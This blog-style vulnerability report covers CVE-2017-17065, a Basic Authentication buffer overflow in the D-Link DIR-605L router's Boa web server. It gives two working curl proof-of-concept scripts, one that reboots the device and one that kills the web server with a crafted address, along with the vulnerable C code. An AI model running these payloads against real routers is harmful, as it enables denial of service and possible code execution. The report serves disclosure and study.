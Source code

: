 ```yaml
---
title: "CVE-2017-17065: D-Link DIR-605L HNAP Basic Authentication Buffer Overflow Discovery+Analysis"
layout: post
category: vuln-report
tags: dlink cve exploit vulnerability
---
```


While testing different inputs in the HNAP functionality of the D-Link DIR-605L/B, I managed to cause a reboot of the device by sending sufficiently large string values in the HTTP Basic Authentication password field. If a long enough value was sent, the next request to the web server would cause the crash. The PoC script below triggers this behavior.


### Denial of Service PoC
```s
#!/usr/bin/env bash
TARGET='172.16.100.1'
pwn1=$(python -c "print('A'*120)")

curl -vv -u admin:"${pwn1}" --header "content-type: text/soap+xml; charset=utf-8" --data @soap.xml http://172.16.100.1/HNAP
curl -vv -u admin:pwned --header "content-type: text/soap+xml; charset=utf-8" --data @soap.xml http://172.16.100.1/HNAP
```

*Note: the xml file provided does not need to contain valid XML.*

### Details
- **Name**: D-Link Wireless N300 Cloud Router
- **Model**: DIR-605L Model B
- **Firmware Version**: <= 2.10B01
- **Vulnerability**: Denial of service, possibly RCE


## Code Analysis - Location of the Bug
I had previously downloaded an archive of all GPL code in use for this device and went looking for the Boa web server source code. After a bit of recursive grep action, I found what I was looking for. 

The bug is present in the file `requests.c`. Specifically, it is in the function `process_option_line()`. If a request uses the POST HTTP method and the request URI path is '/HNAP', a code block is reached that reads the portion of the request header that contains the Basic HTTP authentication string. The authentication string is passed to `base64decode()` and the resulting output is copied into a char array of size 128 bytes, `userAuth`. `sprintf()` then copies the data from the 128 byte array into the 50 byte char array `hnap_admin_password`. This results in a buffer overflow of 122-50 bytes.


```c
#if defined(SUPPORT_HNAP)
char hanp_admin_name[50]={0};
char hnap_admin_password[50]={0};
int hnap_auth_flag=0;
#endif

[...]

#if defined(SUPPORT_HNAP)
//if ((strncasecmp(req->request_uri, "/HNAP", 5) == 0)) {
if ((req->method == M_POST) && (strncasecmp(req->request_uri, "/HNAP", 5) == 0)) {
		if (strncasecmp((char *)line, "Authorization", 13) == 0) {
			char userAuth[0x80];
			char *cp;
			if (strncasecmp(value, "Basic ", 6)) {
				printf("Can only handle Basic auth\n");
				send_r_bad_request(req);
				return 0;
			}			
			base64decode(userAuth, value+6, sizeof(userAuth));				
			if ( (cp = strchr(userAuth,':')) == 0 ) {			
				printf("No user:pass in Basic auth\n");
				send_r_bad_request(req);
				return 0;
			}				
			*cp++=0;
			sprintf(hanp_admin_name, "%s",userAuth);
			if(cp[0]){
				sprintf(hnap_admin_password, "%s", cp);
			}else{
				hnap_admin_password[0]=0;
			}
			return 1;
		}
	}
#endif
```


## Exploitation: Potential Remote Code Execution PoC
Further testing showed that given 108 bytes of junk data followed by certain memory addresses, it was possible to kill Boa without crashing the entire device. This indicates that given a properly crafted payload, it may be possible to achieve code execution. The PoC script below reliably kills Boa and closes port 80 on the router without rebooting the device.

```s
#!/usr/bin/env bash
TARGET='172.16.100.1'
pwn1=$(python -c "print('A'*108+'\x7f\x80\x50\x01')")

curl -vv -u admin:"${pwn1}" --header "content-type: text/soap+xml; charset=utf-8" --data @soap.xml http://172.16.100.1/HNAP
curl -vv -u admin:pwned --header "content-type: text/soap+xml; charset=utf-8" --data @soap.xml http://172.16.100.1/HNAP
```

I have not yet written working shellcode to attempt to exploit this bug further, but it may be something I do in the future. 


## References
- [Mitre: CVE-2017-17065](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17065)
- [DIR-605L Firmware Downloads](http://support.dlink.com/productinfo.aspx?m=DIR-605L)
- [D-Link Security Advisory](ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-605L/REVB/DIR-605L_REVB_FIRMWARE_PATCH_NOTES_2.11betaB06_HBRF_EN.pdf)
- [GPL Source Code](http://tsd.dlink.com.tw/downloads2008detail.asp)
